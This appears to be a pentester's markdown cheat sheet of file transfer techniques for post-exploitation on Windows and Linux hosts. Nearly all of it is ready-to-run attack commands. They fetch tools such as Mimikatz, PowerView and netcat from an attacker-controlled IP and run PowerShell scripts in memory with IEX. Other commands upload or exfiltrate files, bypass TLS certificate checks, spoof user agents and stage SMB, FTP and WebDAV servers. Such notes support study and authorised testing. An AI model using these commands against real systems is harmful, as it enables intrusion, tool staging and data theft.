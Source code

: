 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<IP>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://<IP>/nc.exe` | Download a file using Certutil |
| `wget http://<IP>/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh http://<IP>/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<IP>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@<IP>:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`. |

> Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:  
> `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

# With SMB

create server
`impacket-smbserver -smb2support share .`

transfer  
`copy \\192.168.220.133\share\nc.exe`

New versions of Windows block unauthenticated guest access  

Create the SMB Server with a Username and Password  
`impacket-smbserver -smb2support share  . -user test -password test`  

Mount the SMB Server with Username and Password  
`net use n: \\192.168.220.133\share /user:test test`  
`copy n:\nc.exe`

# With FTP

Setting up a Python3 FTP Server  
`python3 -m pyftpdlib --port 21`

Transfering Files from an FTP Server Using PowerShell  
`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

FTP Uploads  
`sudo python3 -m pyftpdlib --port 21 --write`  

PowerShell Upload File  
`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

# Python - uploadserver
`python3 -m uploadserver`

and put file example
`curl -X POST http://127.0.0.1:8000/upload -F 'files=@basicauth-example.txt' -u hello:world`

# Python WebDav
`sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

# Connecting to the Webdav Share
`dir \\192.168.49.128\DavWWWRoot`
